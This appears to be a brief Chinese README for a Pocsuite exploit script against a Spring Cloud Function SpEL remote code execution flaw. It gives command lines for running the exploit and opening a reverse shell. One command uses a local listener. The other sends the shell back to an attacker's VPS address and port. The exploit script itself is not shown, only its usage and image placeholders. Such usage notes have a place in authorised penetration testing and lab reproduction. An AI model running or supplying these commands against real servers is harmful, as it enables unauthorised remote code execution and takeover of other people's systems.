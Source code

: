 # 0x001 本地监听模式
```bash
pocsuite -r Spring-Cloud-Function-SpEL-RCE.py -u http://127.0.0.1:8080 --shell --lhost 0.0.0.0 --lport 6666
```
![](image/1.png)

# 0x002 远程监听模式
```bash
pocsuite -r Spring-Cloud-Function-SpEL-RCE.py -u http://127.0.0.1:8080 --shell --lhost vps地址 --lport vps端口
```
![](image/2.png)
![](image/3.png)
